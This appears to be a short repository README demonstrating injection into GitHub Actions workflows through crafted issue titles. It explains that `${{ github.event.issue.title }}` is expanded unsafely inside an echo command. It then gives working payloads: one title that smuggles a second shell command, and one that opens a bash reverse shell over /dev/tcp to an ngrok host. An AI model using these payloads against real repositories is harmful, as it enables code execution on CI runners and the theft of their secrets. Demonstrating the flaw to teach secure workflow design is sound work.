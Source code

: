 # Issue Injection
Try creating a new issue with the title:
`new issue title" && ls / && echo "`

## Why?
The GitHub service which dispatches these workflows to the hosted runners replaces 
the macros `${{ ... }}` blindly, so `echo "${{github.event.issue.title}}"` becomes 
`echo "new issue title" && ls / && echo ""`, thus, giving us arbitrary code execution 
capabilities.

![Alt text](./assets/issue_injection_output.jpg "Issue Injection Output")


# Code execution
We continue the exploit concept from `Issue Injection`, but take it a step further.

Setup: create a [reverse shell](https://ngrok.com/download) listening on port 10000 
Lets create an issue with the title: 
```New malicious issue title" && bash -i >& /dev/tcp/<ENDPOINT> 0>&1 && echo "```
Make sure to replace the `<ENDPOINT>` with your reverse shell endpoint (ex: `4.tcp.ngrok.io:19787`)
New malicious issue title" && bash -i >& /dev/tcp/4.tcp.ngrok.io:15631 0>&1 && echo "